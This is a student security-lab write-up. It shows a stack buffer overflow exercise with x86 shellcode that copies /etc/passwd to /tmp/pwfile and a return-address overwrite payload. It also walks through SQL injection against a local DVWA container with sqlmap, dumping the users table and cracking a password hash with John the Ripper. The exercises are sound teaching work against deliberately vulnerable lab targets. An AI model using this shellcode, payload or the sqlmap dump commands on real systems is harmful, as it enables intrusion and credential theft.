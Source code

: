 # Lab #1,22119054, Luu Trong Dung, INSE331280E_01FIE
# Task 1: Software buffer overflow attack
**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  

**Answer 1**:
## 1. Create a text file named `bof.c`:
```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char *p)
{
    char local[256];
    strncpy(local, p, 20);
    printf("redundant code\n");
}
int main(int argc, char *argv[])
{
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

## 2. Create a text file named `shellcode.asm`:
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

## 3.Compile asm program and C program to executable code. 
Step 1: First compile the code
before compile must run docker
```sh
docker run -it --privileged -v 'E:\Learn\Secure\KT:/home/seed/seclabs' securelabs
```
compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
Compile asm program 
```sh
nasm -f elf32 shellcode.asm -o shellcode.o
```
linking asm
```sh
ld -o shellcode shellcode.o
```
## 4.Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

Step2: insert the compiled file bof.out into gdb to see the address of the redundant_code() function and record the address
```sh
gdb -q bof.out
```
save address of redundant_code: 0x0804846b
```sh
disas redundant_code
```
![](./images/Screenshot%202024-10-21%20083428.png)


Step 3: Exit the GDB and start the attack by inserting the address of the function that was saved in the upper step of Return.
```sh
./bof.out $(python -c "print('a'*20 + '\x6b\x84\x04\x08')")
```

output screenshot (optional)
![](./images/Screenshot%202024-10-21%20084105.png)


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  
## Setup
Step1: Install dvwa and sqlmap

Install dvwa
```sh
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
Install sqlmap
```sh
sudo apt update
sudo apt install sqlmap
```

Step2: next to the browser, type in the URL bar "localhost:80" and log in with (Admin, password)
![](./images/Screenshot%202024-10-21%20094110.png)

Step3: then select sql injection and fill in 1 user ID of any submit, then copy URl 
![](./images/Screenshot%202024-10-21%20094223.png)

Step4: next press f12 to find and save Cockie
![](./images/Screenshot%202024-10-21%20094329.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: This command includes the URL and cookie saved in the Setup steps
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs
```

![](./images/Screenshot%202024-10-21%20094903.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: The figure below contains 2 tables in the DVWA database, User and Guestbook
use sqlmap to get tables 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs --tables
```
![](./images/Screenshot%202024-10-21%20095522.png)

use sqlmap to get infomation of users table in database dvwa
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --columns
```
![](./images/Screenshot%202024-10-21%20100555.png)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --dump   
```
With the above command we get the data in the users table
![](./images/Screenshot%202024-10-21%20102134.png)

Retrieve the hashed password of any user
```sh
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
```

Install John
```sh
sudo apt update
sudo apt install john -y
```

Use John decrypt hashes password save in hashes.txt, with format=md5
```sh
john --format=md5crypt hashes.txt
```
Show pass
```sh
john --show hashes.txt
```


